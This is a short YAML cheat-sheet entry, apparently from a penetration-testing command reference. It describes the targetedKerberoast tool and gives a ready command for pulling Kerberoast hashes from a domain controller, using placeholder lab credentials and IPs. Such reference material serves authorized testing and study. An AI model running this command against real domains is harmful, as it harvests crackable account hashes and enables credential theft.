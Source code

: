 ```yaml
---
description: |
  targetedKerberoast is a Python script that can, like many others (e.g. GetUserSPNs.py), print "kerberoast" hashes for user accounts that have a SPN set. 

  Command Reference:

  	Target IP: 10.10.10.1

  	Attacker IP: 10.10.10.2

  	Domain: test.local

  	Username: john

  	Password: password123

command: |
  python3 targetedKerberoast.py -d test.local -u john -p password123 --dc-ip 10.10.10.1
items:
  - Password
  - Username
services:
  - Kerberos
  - NTLM
OS:
  - Linux
attack_types:
  - Exploitation
references:
  - https://github.com/ShutdownRepo/targetedKerberoast
---
```

